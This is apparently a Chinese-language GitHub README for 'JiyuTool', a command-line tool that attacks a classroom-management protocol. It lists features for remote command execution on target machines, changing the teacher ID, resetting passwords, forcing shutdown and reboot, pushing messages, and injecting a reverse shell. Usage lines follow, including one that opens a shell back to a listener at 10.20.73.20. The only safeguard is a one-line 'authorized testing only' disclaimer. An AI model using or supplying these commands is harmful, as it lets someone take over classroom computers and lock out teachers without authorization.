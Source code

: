 # JiyuTool

JiyuTool 是一款用于通过特定协议与远程系统通信的工具，支持远程命令执行、关机重启、发送消息、修改ID等功能，还可发起反向Shell连接。

## 功能特性

- 远程执行命令
- 修改教师 ID
- 重置密码
- 关机与重启控制
- 发送消息
- 发起反向 Shell

## 使用方法

### 环境依赖

- Python 3.6+
- Windows 环境（用于反向Shell）

### 命令行参数

```
python main.py --ip <目标IP> [--port <目标端口>] <command> [command_options]
```

#### 可用命令

```
# 关机
python script.py --ip 192.168.1.10 power --shutdown

# 重启
python script.py --ip 192.168.1.10 power

# 执行命令
python script.py --ip 192.168.1.10 exec --cmd "whoami"

# 发消息
python script.py --ip 192.168.1.10 message --msg "请保存好你的文件，系统将重启"

# 修改教师ID
python script.py --ip 192.168.1.10 id --tid 12

# 重置密码
python script.py --ip 192.168.1.10 reset --pwd newpass123

# 注入反向shell
python script.py --ip 192.168.1.10 shell --lhost 10.20.73.20
```



## 注意事项

- 仅供授权测试使用！禁止用于非法用途！

